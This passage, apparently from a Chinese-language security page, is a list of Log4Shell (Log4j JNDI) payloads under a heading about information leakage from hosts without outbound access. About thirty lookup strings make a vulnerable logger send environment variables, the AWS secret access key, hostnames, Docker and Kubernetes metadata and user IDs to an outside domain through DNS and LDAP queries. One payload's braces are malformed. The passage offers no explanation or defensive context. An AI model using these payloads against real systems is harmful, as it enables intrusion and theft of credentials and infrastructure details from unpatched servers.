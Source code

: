 
</code></pre> 
 <p>信息泄露(主要是针对不出网的)</p> 
 <pre><code class="prism language-bash"><span class="token variable">${jndi:ldap://${env:user}</span>.domain.com/exp<span class="token punctuation">}</span>
<span class="token variable">${jndi:dns://${hostName}</span>.domain.com/a<span class="token punctuation">}</span>
<span class="token variable">${jndi:dns://${env:COMPUTERNAME}</span>.domain.com/a<span class="token punctuation">}</span>
<span class="token variable">${jndi:dns://${env:USERDOMAIN}</span>.domain.com/a<span class="token punctuation">}</span>
<span class="token variable">${jndi:dns://${env:AWS_SECRET_ACCESS_KEY.domain.com/a}</span>
<span class="token variable">${jndi:ldap://${ctx:loginId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${map:type}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${filename}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${date:MM-dd-yyyy}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${docker:containerId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${docker:containerName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${docker:imageName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${env:USER}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${event:Marker}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${mdc:UserId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${java:runtime}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${java:vm}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${java:os}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${jndi:logging/context-name}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${hostName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${docker:containerId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:accountName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:clusterName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:containerId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:containerName}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:host}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:labels.app}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:labels.podTemplateHash}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:masterUrl}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:namespaceId}</span>.domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:ldap://${k8s:namespaceName}</span>.domain.com/j<span class="token punctuation">}</span>